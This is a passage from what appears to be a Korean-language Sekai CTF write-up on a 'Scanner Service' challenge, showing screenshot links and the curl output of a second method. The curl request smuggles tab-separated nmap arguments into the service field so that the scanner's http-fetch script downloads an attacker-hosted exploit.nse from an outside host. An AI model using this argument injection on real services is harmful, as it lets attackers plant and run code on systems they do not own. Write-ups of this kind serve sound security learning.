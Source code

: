 ![스크린샷 2025-08-11 오전 12.32.46.png](./images/scanner_service_screenshot2.png)

![스크린샷 2025-08-11 오전 12.32.51.png](./images/scanner_service_screenshot3.png)

- [방법2] 결과
```bash
ijebin@ijebin-ui-MacBookPro Sekai_CTF % curl -X POST \
     --data-binary $'service=192.168.64.1:8000\t--script\thttp-fetch\t-Pn\t--script-args\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse' 192.168.64.5:1337
<!DOCTYPE html>
<html>
<head>
  <title>Scanner Service</title>
  <link rel="stylesheet" href="stylesheets/style.css">
</head>
<body>
<div class="wrapper">

  <div class="center-text">
    <h1 class="title">Vulnerability Scanner</h1>
    <form action="/" method="post">
      <p>Enter your Target</p><br>
      <input type="text" name="service" value="" placeholder="IP-Address:Port">
      <input type="submit" value="Scan">
    </form>
  </div>

```